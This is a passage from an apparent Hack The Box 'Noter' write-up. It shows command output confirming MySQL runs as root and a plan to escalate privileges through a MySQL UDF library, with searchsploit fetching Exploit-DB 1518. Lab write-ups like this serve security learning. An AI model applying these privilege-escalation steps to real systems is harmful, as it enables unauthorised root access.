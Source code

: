 We see it on the default port 3306. We can also check the service, and see if it's running as root:

```text
svc@noter:~/app/web$ systemctl status mysql
● mysql.service - LSB: Start and stop the mysql database server daemon
     Loaded: loaded (/etc/init.d/mysql; generated)
     Active: active (running) since Sat 2022-05-21 16:15:41 UTC; 1 day 3h ago
       Docs: man:systemd-sysv-generator(8)
    Process: 961 ExecStart=/etc/init.d/mysql start (code=exited, status=0/SUCCE>
      Tasks: 36 (limit: 4617)
     Memory: 212.7M
     CGroup: /system.slice/mysql.service
             ├─1062 /bin/sh /usr/bin/mysqld_safe
             ├─1179 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql -->
             └─1180 logger -t mysqld -p daemon error

svc@noter:~/app/web$ systemctl status mysql 2>/dev/null | grep -o ".\{0,0\}user.\{0,50\}" | cut -d '=' -f2 | cut -d ' ' -f1
root
```

## Exploiting UDF in MySQL

It is. So we know mysql is running as root, and we have root credentials to log in to it. After some searching I found HackTricks has what I needed [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library). Using the exploit [here](https://www.exploit-db.com/exploits/1518) on Exploit-DB we can copy the source code to the box, compile it, and then use the shared library it creates from within mysql to execute code as root.

Let's grab the code using searchsploit:

```sh
┌──(root㉿kali)-[~/htb/noter]
└─# searchsploit mysql udf
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)  | linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2) | linux/local/1518.c
MySQL 4/5/6 - UDF for Command Execution                                 | linux/local/7856.txt
------------------------------------------------------------------------ ---------------------------------

┌──(root㉿kali)-[~/htb/noter]
└─# searchsploit -m linux/local/1518.c
  Exploit: MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
      URL: https://www.exploit-db.com/exploits/1518
     Path: /usr/share/exploitdb/exploits/linux/local/1518.c
File Type: C source, ASCII text
Copied to: /root/htb/noter/1518.c
```
